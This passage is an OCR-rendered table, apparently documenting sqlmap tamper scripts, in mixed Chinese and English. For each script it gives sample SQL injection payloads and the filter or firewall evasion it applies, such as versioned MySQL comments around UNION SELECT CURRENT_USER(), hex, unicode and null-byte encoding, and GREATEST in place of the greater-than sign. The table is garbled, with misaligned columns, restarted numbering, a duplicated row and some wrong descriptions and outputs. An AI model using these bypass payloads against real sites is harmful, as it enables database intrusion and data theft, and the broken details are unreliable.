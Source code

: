 编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM%20TABLE<br>*&nbsp;Output:&nbsp;%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>14</strong></td><td width="69">randomcase.py</td><td width="227">随机大小写</td><td width="50">*&nbsp;Input:&nbsp;INSERT<br>*&nbsp;Output:&nbsp;InsERt</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>15</strong></td><td width="69">versionedkeywords.py</td><td width="227">Encloses&nbsp;each&nbsp;non-function&nbsp;keyword&nbsp;with&nbsp;versioned&nbsp;MySQL&nbsp;comment</td><td width="50">*&nbsp;Input:&nbsp;1&nbsp;UNION&nbsp;ALL&nbsp;SELECT&nbsp;NULL,&nbsp;NULL,&nbsp;CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()&nbsp;AS&nbsp;CHAR),CHAR(32)),CHAR(58,100,114,117,58))#<br>*&nbsp;Output:&nbsp;1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,&nbsp;CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#</td><td width="201"><br></td></tr><tr><td width="21"><strong>16</strong></td><td width="69">space2comment.py</td><td width="227">Replaces&nbsp;space&nbsp;character&nbsp;(‘&nbsp;‘)&nbsp;with&nbsp;comments&nbsp;‘/**/’</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;id&nbsp;FROM&nbsp;users<br>*&nbsp;Output:&nbsp;SELECT//id//FROM/**/users</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>17</strong></td><td width="69">charunicodeencode.py</td><td width="227">字符串&nbsp;unicode&nbsp;编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD%20FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2000<br>*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;5.1.56<br>*&nbsp;PostgreSQL&nbsp;9.0.3</td></tr><tr><td width="21"><strong>18</strong></td><td width="69">versionedmorekeywords.py</td><td width="227">注释绕过</td><td width="50">*&nbsp;Input:&nbsp;1&nbsp;UNION&nbsp;ALL&nbsp;SELECT&nbsp;NULL,&nbsp;NULL,&nbsp;CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER()&nbsp;AS&nbsp;CHAR),CHAR(32)),CHAR(58,115,114,121,58))#<br>*&nbsp;Output:&nbsp;1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#</td><td width="201"><br></td></tr><tr><td rowspan="2" width="64">*&nbsp;MySQL&nbsp;&lt;&nbsp;5.1</td><td width="18"><strong>19</strong></td><td width="147">halfversionedmorekeywords.py</td><td width="5">关键字前加注释</td><td width="218">*&nbsp;Input:&nbsp;value’&nbsp;UNION&nbsp;ALL&nbsp;SELECT&nbsp;CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER()&nbsp;AS&nbsp;CHAR),CHAR(32)),CHAR(58,97,110,121,58)),&nbsp;NULL,&nbsp;NULL#&nbsp;AND&nbsp;‘QDWa’='QDWa<br>*&nbsp;Output:&nbsp;value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),&nbsp;NULL,&nbsp;NULL#/*!0AND&nbsp;‘QDWa’='QDWa</td><td width="101">*&nbsp;MySQL&nbsp;4.0.18,&nbsp;5.0.22</td></tr><tr><td width="21"><strong>20</strong></td><td width="69">halfversionedmorekeywords.py</td><td width="227">当数据库为 mysql 时绕过防火墙，每个关键字之前添加<br>mysql 版本评论</td><td width="50">1.("value'&nbsp;UNION&nbsp;ALL&nbsp;SELECT&nbsp;CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER()&nbsp;AS&nbsp;CHAR),CHAR(32)),CHAR(58,97,110,121,58)),&nbsp;NULL,&nbsp;NULL#&nbsp;AND&nbsp;'QDWa'='QDWa")<br>2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND&nbsp;'QDWa'='QDWa"</td><td width="201">*&nbsp;MySQL&nbsp;4.0.18,&nbsp;5.0.22</td></tr><tr><td width="64">MySQL&nbsp;&gt;=&nbsp;5.1.13</td><td width="18"><strong>21</strong></td><td width="147">space2morehash.py</td><td width="5">空格替换为&nbsp;# 号&nbsp;以及更多随机字符串&nbsp;换行符</td><td width="218">*&nbsp;Input:&nbsp;1&nbsp;AND&nbsp;9227=9227<br>*&nbsp;Output:&nbsp;1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227</td><td width="101">MySQL&nbsp;5.1.41</td></tr><tr><td rowspan="7" width="64">&nbsp;Oracle</td><td width="18"><strong>1</strong></td><td width="147">greatest.py</td><td width="5">绕过过滤’&gt;’&nbsp;, 用 GREATEST 替换大于号。</td><td width="218">('1&nbsp;AND&nbsp;A&gt;&nbsp;B')<br>'1&nbsp;AND&nbsp;GREATEST(A,B+1)=A'</td><td width="101">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>2</strong></td><td width="69">apostrophenullencode.py</td><td width="227">绕过过滤双引号，替换字符和双引号。</td><td width="50">tamper("1&nbsp;AND'1'='1")<br>'1&nbsp;AND&nbsp;%00%271%00%27=%00%271'</td><td width="201">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>3</strong></td><td width="69">between.py</td><td width="227">用 between